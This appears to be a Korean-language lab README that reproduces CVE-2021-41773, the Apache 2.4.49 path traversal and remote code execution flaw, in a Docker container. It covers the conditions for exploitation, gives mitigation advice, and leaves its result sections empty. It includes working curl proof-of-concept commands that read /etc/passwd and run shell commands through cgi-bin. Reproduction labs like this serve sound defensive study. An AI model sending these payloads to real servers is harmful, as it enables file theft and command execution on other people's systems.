


# CVE-2021-41773 (Apache HTTP Server 2.4.49 Path Traversal & RCE)

## 1. 취약점 요약
- **CVE ID:** CVE-2021-41773
- **CVSS (Risk Score):** 9.8 (Critical)
- **내용:** Apache HTTP Server 2.4.49 버전에서 경로 정규화(Path Normalization) 로직의 결함으로 인해 발생하는 Path Traversal 취약점이다. 공격자는 이를 통해 Document Root 외부의 임의 파일을 읽을 수 있으며, 서버에 CGI 모듈이 활성화되어 있는 경우 원격 코드 실행(RCE)까지 가능하다.

## 2. 환경 구성
- **Base Image:** `httpd:2.4.49`
- 단일 `docker-compose.yml` 및 `Dockerfile`을 사용하여 추가 설정 없이 명령어 한 줄로 취약한 환경이 구성되도록 세팅했다.

## 3. 취약 조건
1. Apache HTTP Server 버전이 2.4.49일 것
2. `httpd.conf`에서 특정 디렉토리(또는 전체 루트 `/`)에 대해 `Require all granted` 설정이 되어 접근이 허용되어 있을 것
3. RCE로 연계하기 위해서는 `mod_cgi` 또는 `mod_cgid` 모듈이 활성화되어 있을 것

## 4. 재현 절차
1. 터미널에서 다음 명령어를 실행하여 도커 컨테이너를 빌드하고 백그라운드에서 실행한다.

    docker compose up -d --build

2. 컨테이너가 정상적으로 실행되면(포트 8080), 아래의 PoC 코드를 순서대로 실행하여 취약점을 트리거한다.

## 5. PoC 코드
**[Path Traversal - 임의 파일 읽기]**

    curl -s --path-as-is http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

**[RCE - 원격 명령 실행]**

    curl -s --path-as-is -d "echo Content-Type: text/plain; echo; id" "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"

## 6. 실행 결과

**Path Traversal 결과**

**RCE 결과**

## 7. 대응 방안
- **패치 적용:** Apache HTTP Server 버전을 2.4.51 이상으로 업데이트한다. (참고: 2.4.50 버전은 우회 취약점인 CVE-2021-42013이 존재하므로 2.4.51 이상 권장)
- **설정 점검:** `httpd.conf`에서 `Require all granted` 설정이 불필요한 디렉토리에 적용되어 있는지 점검하고, 루트 디렉토리(`<Directory />`)는 `Require all denied`로 설정하여 접근을 최소화한다.